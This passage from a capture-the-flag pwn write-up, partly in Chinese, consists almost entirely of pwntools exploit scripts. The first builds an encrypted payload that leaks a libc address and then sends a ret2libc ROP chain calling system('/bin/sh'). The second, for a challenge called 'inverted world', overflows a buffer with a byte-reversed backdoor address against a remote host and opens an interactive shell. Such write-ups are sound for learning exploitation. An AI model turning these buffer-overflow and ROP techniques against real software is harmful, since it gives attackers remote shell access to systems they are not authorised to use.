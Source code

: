 ```python
payload1_enc=b''
for i in range(len(payload1)):
    payload1_enc+=decrypt(payload1[i])

link.recvuntil("thing: ")
link.send(payload1_enc)

read_addr=u64(link.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

libc_base=read_addr-libc.sym["read"]
system=libc_base+libc.sym["system"]
binsh=libc_base+next(libc.search(b'/bin/sh'))

payload2=b'a'*0x18
payload2+=p64(ret)
payload2+=p64(pop_rdi)
payload2+=p64(binsh)
payload2+=p64(system)

payload2_enc=b''
for i in range(len(payload2)):
    payload2_enc+=decrypt(payload2[i])

link.send(payload2_enc)
link.interactive()
```

## 补充
### inverted world
反序覆盖下一个函数返回地址

exp：

```python
from pwn import *

context.log_level='debug'
link=remote("101.200.139.65",37044)
# link=process("./ivw")

ret=0x40101a
backdoor=0x40137C
payload=b'a'*0x100+p64(backdoor)[::-1]

link.recvuntil("root@AkyOI-VM:~#")
link.sendline(payload)
link.interactive()
```


